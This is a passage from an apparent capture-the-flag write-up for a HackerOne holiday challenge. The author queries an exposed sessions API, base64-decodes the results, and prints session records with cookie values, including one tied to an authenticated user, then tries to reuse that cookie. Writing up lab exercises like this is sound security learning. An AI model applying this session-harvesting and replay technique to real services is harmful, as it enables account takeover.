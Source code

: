 ```json
```

These looked like base64, so I decoded them:

```bash
$ curl https://hackyholidays.h1ctf.com/swag-shop/api/sessions | jq -r '.sessions[]' | base64 -d | jq

{
  "user": null,
  "cookie": "YzVmNTJiYTNkOWFlYTY2YjA1ZTY1NDBlNmI0YmZjMmNmZGYzMzg1MWJkZDcyMzY0ZTFlYjdmNDY3NDkzNzIwMGNiZjNhMjQ3Y2RmY2E2N2FmMzdjM2I0ZWNlZTVkM2VkNzU3MTUwYjdkYzkyNWI4Y2I3ZWZiNjk2N2NjOTk0MjU="
}
{
  "user": null,
  "cookie": "ZjM2MzNjM2JkZGUyMzVmMmY2ZjcxNjdlNDNmZjQwZTlmY2RhNjYxNWM5Y2Y1ZjY2ODU3NjkxMTQ2Nzk0ZmIxOWZhN2ZhZjg0Y2E5Nzk1NTQ2MzMzZTc0MWJlMzVhZDA0MDUwYmQ3NDlmZTE4MmNkMjMxMzU0MWRlMTJhNWYzOGQ="
}
{
  "user": "C7DCCE-0E0DAB-B20226-FC92EA-1B9043",
  "cookie": "NDU0ODI5MmY3ZDY2MjRiMWE0MmY3NGQxMWE0ODMxMzg2MGE1YWRhMTc0YjhkYWE3MzU1MjZjNDg5MDQ2Y2JhYjY3YTFhY2Q3YjBmYTk4N2Q5ZWQ5MWQ5OWFkNWE2MjIyZmZjMzZjMDQ3ODk5ZmI4ZjZjOWU0OGJhMjIwNmVkMTY="
}
{
  "user": null,
  "cookie": "MDRmYTBhN2FiNjY5MGFlOWFmYTE4ZjE2N2JjZmYzZWJkOTRlOGYwMjI1OGIyNjM1ODU0Njc2YTdlZTM4MzFiM2I1MTUzMzViMjFhYzVkMTc4ODE3OGM4Y2JlOTk4MjJlMDI2YjQzZDQxMGNmNTg1ODQxZjBmODBmZWQxZmE1YmE="
}
{
  "user": null,
  "cookie": "M2Q2MDIzNDg5MWE0N2M3NDJmNTIyNGM3NWUxYWQ0NDRlZWI3MTg4MjI3ZGRkMTllZTM2ZDkxMGVlNWEwNmZiZWFkZjZhODg4MDY3ODlmZGRhYTM1Y2IyMGVhMjA1NjdiNDFjYzBhMWQ4NDU1MDc4NDE1YmI5YTJjODBkMjFmN2Y="
}
{
  "user": null,
  "cookie": "MWY3MTAzMTBjZGY4ZGMwYjI3Zjk2ZmYzMWJlMWEyZTg1YzE0MmZlZjMwYmJjZmQ4ZTU0Y2YxYzVmZTM1N2Q1ODY2YjFkZmFiNmI5ZjI1M2M2MDViNjA0ZjFjNDVkNTQ4N2U2ODdiNTJlMmFiMTExODA4MjU2MzkxZWNhNjFkNmU="
}
{
  "user": null,
  "cookie": "MDM4YzhiN2Q3MmY0YjU2M2FkZmFlNDMwMTI5MjEyODhlNGFkMmI5OTcyMDlkNTJhZTc4YjUxZjIzN2Q4NmRjNjg2NmU1MzVlOWEzOTE5NWYyOTcwNmJlZDIyNDgyMTA5ZDA1OTliMTYyNDczNjFkZmU0MTgxYWEwMDU1ZWNhNzQ="
}
{
  "user": null,
  "cookie": "OGI3N2ExOGVjNzM1ZWVmNTk2ZjNkZjIwM2ZjYzdjMWNhODg4NDhhODRmNjI0NDRjZTdlZTg0ZTUwNzZmZDdkYTJjN2IyODY5YjcxZmI5ZGRiYTgzZjhiZDViOWZjMTVlZDgzMTBkNzNmODI0OTM5ZDM3Y2JjZmY4NzEyOGE3NTM="
}
```

I now had a session associated with an authenticated user (the third one down in the list). Using the cookie didn't seem to have any effect, so I went back to try and figure out what was up with the `user` endpoint.
